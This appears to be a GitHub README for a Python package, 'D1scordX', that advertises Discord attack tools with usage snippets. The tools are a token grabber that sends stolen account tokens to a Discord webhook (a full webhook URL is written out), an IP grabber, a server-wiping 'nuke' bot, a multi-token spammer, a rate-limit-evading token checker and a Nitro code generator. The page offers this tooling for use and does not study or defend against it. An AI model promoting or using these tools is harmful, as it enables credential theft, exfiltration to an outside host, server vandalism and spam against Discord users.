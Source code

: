 <p align="center">
  <b>Link:</b><br>
  <a href="https://discord.gg/yBA7Wk67rH">Discord</a> |
  <a href="https://www.youtube.com/c/XinGod">YouTube</a> |
  <a href="https://github.com/XinOnGithub">Github</a>
  <br>
  <img src="https://cdn.discordapp.com/icons/791223032215240725/a_34b811424e1310fa438832dad9d113cf.gif">
</p>
<h1 align="center">Setup</h1>

## Tips:
- **Install module with**: ``pip install D1scordX``

## Features:

- CheckTokens   |   Check a token list from txt file and bypass ratelimit(discord api(not bypassing Cloudflare))
- TokenGrabber  |   Grab discord token using webhook
- SelfNukeBot   |   Nuke discord server with your own account
- TokenSpammer  |   Spam message with your **valid token**
- GenerateNitro |   Generate nitro and save on a txt file

## How to use:

- **CheckTokens**
```py
from D1scordX import CheckTokens

useragent = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36'
CheckTokens('filename.txt',useragent)

#in filename.txt we have token(list)
```

- **TokenGrabber**
```py
from D1scordX import TokenGrabber

webhook = 'https://discord.com/api/webhooks/826913797411045396/M1J0F8t7ngBLqWY1CEK3dDvCY4eN-YYLwhNkNKJj1MZKOKvwDViHgkqKGSa5TRjownWo'
TokenGrabber(webhook)
```

- **SelfNukeBot**
```py
from D1scordX import SelfNukeBot

token = 'token'
prefix = 'bot prefix ex:$'
SelfNukeBot(token,prefix)
```

- **TokenSpammer**
```py
from D1scordX import TokenSpammer

TokenSpammer('my token file.txt',channel id (791225898242015255),message to send,10)
ex:TokenSpammer('tokens.txt',791225898242015255,hello world,10)

#in my token file.txt we have token(list)
```

- **GenerateNitro**
```py
from D1scordX import GenerateNitro

GenerateNitro('outpout file.txt',count of nitro)
ex:GenerateNitro('mynitro.txt',100)
```

```

- **IpGrabber**
```py
from D1scordX import IpGrabber

webhook = 'Your Webhhook Url'
IpGrabber(webhook)
```
